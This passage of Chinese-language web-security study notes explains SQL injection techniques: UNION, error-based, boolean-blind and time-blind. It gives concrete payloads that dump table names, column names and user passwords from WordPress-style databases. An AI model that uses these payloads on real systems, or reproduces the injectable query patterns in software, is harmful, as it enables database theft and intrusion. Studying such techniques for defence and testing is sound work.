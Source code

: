 查询参数：`?id=-1 union select user，pwd from wp_user`


（4）注入点在GROUP BY或ORDER BY后

在本地MySQL中进行尝试，看之后能加什么

例子

SQL：`"SELECT title FROM wp_news GROUP BY ${_GET['title']}"`

查询参数：`title=id desc, (if(1，sleep (1)，1))`


（5）注入点在LIMIT之后

整个SQL没有ORDER BY的情况下，可以直接使用UNION注入

如果MySQL<5.6，那么可以尝试通过PROCEDURE尝试注入

### 1.2.5 SQL注入总结

注入技巧的使用优先级是：UNION注入>报错注入>布尔盲注>时间盲注

UNION注入：

注意需要匹配的列数

爆出当前数据库中所有的表：

`id=999' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`

爆出某个表的所有字段：

`id=999' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='wp_user'`

报错注入：

某些情况下会回显报错信息

`id=999' or updatexml(1,concat(0x7e,(select 1)),1)`

布尔盲注：

某些情况下页面不直接回显查询结果，但是可以根据页面显示与否判断是否存在注入

这条语句有回显，因为1即真：

`id=1' and 1`

这条语句没有回显，说明后面的条件为假

`id=1' and (select ascii((select mid((select database()),1,1))))<112`

一般用ascii配合二分法

时间盲注：

某些情况下注入成功与否页面显示效果都一样，这时可以通过延长查询时间来判断是否注入成功

`id=99999' or if(ascii(mid(database(),1,1))=115,sleep(1),0)#`

一些函数的参数：

updatexml(1,path,1)

mid(str,1,1)：从第一个字符开始截取1个

ascii(str)：返回str第一个字符的ascii码

if(condition,true_result,false_result)
